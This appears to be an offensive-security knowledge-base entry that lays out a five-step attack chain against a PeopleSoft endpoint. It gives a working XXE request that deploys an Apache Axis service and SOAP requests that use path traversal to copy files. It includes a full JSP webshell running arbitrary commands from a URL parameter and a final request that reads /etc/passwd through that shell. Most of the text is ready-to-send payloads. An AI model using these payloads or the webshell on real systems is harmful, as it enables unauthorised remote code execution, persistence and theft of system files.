

---
tags:
  - xxe
  - rce
  - peoplesoft
  - axis
  - webshell
type: attack_chain
tools:
  - '[[tools/Burp]]'
  - '[[tools/curl]]'
  - '[[tools/Browser]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Persistence]]'
commands:
  - '[[commands/post-xxe-deploy-service]]'
  - '[[commands/post-soap-copy-to-temp]]'
  - '[[commands/post-soap-inject-payload]]'
  - '[[commands/post-soap-copy-to-webroot]]'
  - '[[commands/get-webshell-execute-command]]'
  - '[[commands/post-xxe-poc]]'
  - '[[commands/curl-test-vulnerability]]'
platforms:
  - Web
  - Linux
complexity: high
procedures:
  - '[[procedures/Exploit-XXE-to-Deploy-Axis-Service]]'
  - '[[procedures/Copy-XML-to-Temp-Directory]]'
  - '[[procedures/Inject-JSP-Webshell-Payload]]'
  - '[[procedures/Deploy-Modified-XML-to-Webroot-JSP]]'
  - '[[procedures/Execute-Commands-via-Deployed-Webshell]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
  - '[[Server Software Component]]'
description: >-
  Exploitation of XXE vulnerability in PeopleSoft endpoint to achieve remote
  code execution through service deployment, file manipulation, and webshell
  injection.
skill_level: advanced
impact_level: high
id: 1133423f-c7c9-451b-8528-51a013e65c9c
created_at: '2025-12-13T09:00:33.641Z'
updated_at: '2025-12-13T09:00:33.641Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Persistence]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
  - '[[Server Software Component]]'
---
# XXE to RCE via Service Deployment and Webshell in PeopleSoft Endpoint

Multi-stage attack chain demonstrating exploitation of an XXE vulnerability in a PeopleSoft endpoint to deploy a service, manipulate files, inject a webshell, and achieve remote code execution.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Advanced |
| Complexity | High |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp]]
- [[tools/curl]]
- [[tools/Browser]]

### Target Environment

- Web application running PeopleSoft on Linux
- Exposed ports: 8080
- Services: PeopleSoftServiceListeningConnector, AdminService, pspc
- Tech stack: PeopleSoft, Apache Axis, JSP, SOAP

### Initial Access Requirements

- Network access to the target endpoint
- No credentials required for initial XXE exploitation
- Ability to send crafted HTTP requests

## Detailed Attack Procedures

### Step 1: Exploit XXE to Deploy Axis Service
procedure: [[procedures/Exploit-XXE-to-Deploy-Axis-Service]]

**Objective**: Use XXE to deploy a new Apache Axis service on localhost for further exploitation.

**Instructions**: Send a crafted POST request to the vulnerable endpoint using [[commands/post-xxe-deploy-service]]:

```bash
POST /PSIGW/PeopleSoftServiceListeningConnector HTTP/1.1
Host: https://███
Content-type: text/xml
Content-Length: ...
<!DOCTYPE a PUBLIC "-//B/A/EN" "http://localhost:8080/pspc/services/AdminService?method=%21--%3E%3Cns1%3Adeployment+xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22+xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22+xmlns%3Ans1%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%3E%3Cns1%3Aservice+name%3D%22lmJyaVBUrfcEfJw%22+provider%3D%22java%3ARPC%22%3E%3Cns1%3Aparameter+name%3D%22className%22+value%3D%22org.apache.pluto.portalImpl.Deploy%22%2F%3E%3Cns1%3Aparameter+name%3D%22allowedMethods%22+value%3D%22%2A%22%2F%3E%3C%2Fns1%3Aservice%3E%3C%2Fns1%3Adeployment">
```

**Expected Output**: Successful deployment of the service named lmJyaVBUrfcEfJw.

**Success Indicators**:
- No error in response
- Service becomes accessible at /pspc/services/lmJyaVBUrfcEfJw

### Step 2: Copy XML to Temp Directory
procedure: [[procedures/Copy-XML-to-Temp-Directory]]

**Objective**: Use the deployed service to copy a target XML file to a temporary directory via path traversal.

**Instructions**: Send a SOAP POST request using [[commands/post-soap-copy-to-temp]]:

```bash
POST /pspc/services/lmJyaVBUrfcEfJw HTTP/1.1
...
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope ...>
<soapenv:Body>
<api:copy ...>
<in0 xsi:type="xsd:string">./applications/peoplesoft/pspc.war/WEB-INF/data/portletentityregistry.xml</in0>
<in1 xsi:type="xsd:string">../../../../../../../../../../../../../../../../../../../../tmp/QAusGyxGqQqyVEhqzPbu/WEB-INF/data/portletentityregistry.xml</in1>
</api:copy>
</soapenv:Body>
</soapenv:Envelope>
```

**Expected Output**: File copied to temp directory.

**Success Indicators**:
- Successful SOAP response
- File presence in temp (verifiable in later steps)

### Step 3: Inject JSP Webshell Payload
procedure: [[procedures/Inject-JSP-Webshell-Payload]]

**Objective**: Inject a JSP webshell payload into the copied XML file using the deployed service.

**Instructions**: Send a SOAP POST request with payload using [[commands/post-soap-inject-payload]]:

```bash
POST /pspc/services/lmJyaVBUrfcEfJw HTTP/1.1
...
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope ...>
<soapenv:Body>
<api:main ...>
<api:in0>
<item xsi:type="xsd:string">../../../../../../../../../../../../../../../../../../../../tmp</item>
<item xsi:type="xsd:string">QAusGyxGqQqyVEhqzPbu</item>
<item xsi:type="xsd:string">QAusGyxGqQqyVEhqzPbu.war</item>
<item xsi:type="xsd:string">/bin/bash</item>
<item xsi:type="xsd:string">-addToEntityReg</item>
<item xsi:type="xsd:string"><![CDATA[<%@ page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>]]></item>
</api:in0>
</api:main>
</soapenv:Body>
</soapenv:Envelope>
```

**Expected Output**: Payload injected into XML.

**Success Indicators**:
- Successful response
- Modified file ready for deployment

### Step 4: Deploy Modified XML to Webroot JSP
procedure: [[procedures/Deploy-Modified-XML-to-Webroot-JSP]]

**Objective**: Copy the modified XML to a JSP file in the webroot for execution.

**Instructions**: Send a SOAP POST request using [[commands/post-soap-copy-to-webroot]]:

```bash
POST /pspc/services/lmJyaVBUrfcEfJw HTTP/1.1
...
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope ...>
<soapenv:Body>
<api:copy ...>
<in0 xsi:type="xsd:string">../../../../../../../../../../../../../../../../../../../../tmp/QAusGyxGqQqyVEhqzPbu/WEB-INF/data/portletentityregistry.xml</in0>
<in1 xsi:type="xsd:string">./applications/peoplesoft/PSIGW.war/PVrIiSDNAQlOQubhYHDE.jsp</in1>
</api:copy>
</soapenv:Body>
</soapenv:Envelope>
```

**Expected Output**: JSP file deployed in webroot.

**Success Indicators**:
- Successful copy response
- JSP accessible via URL

### Step 5: Execute Commands via Deployed Webshell
procedure: [[procedures/Execute-Commands-via-Deployed-Webshell]]

**Objective**: Access the JSP webshell and execute arbitrary commands for RCE.

**Instructions**: Access the URL and pass command using [[commands/get-webshell-execute-command]]:

```bash
https://██████/PSIGW/PVrIiSDNAQlOQubhYHDE.jsp?c=cat%20/etc/passwd
```

**Expected Output**: Output of the executed command, e.g., contents of /etc/passwd.

**Success Indicators**:
- Command output returned
- Arbitrary RCE achieved

## Attack Chain Summary

### Key Achievements

1. Successful XXE exploitation for internal service deployment
2. File manipulation leading to webshell injection
3. Remote code execution on the target server

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Command-Line Interface]]
- [[Server Software Component]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Persistence]]

*Last updated: 2023-10-01*
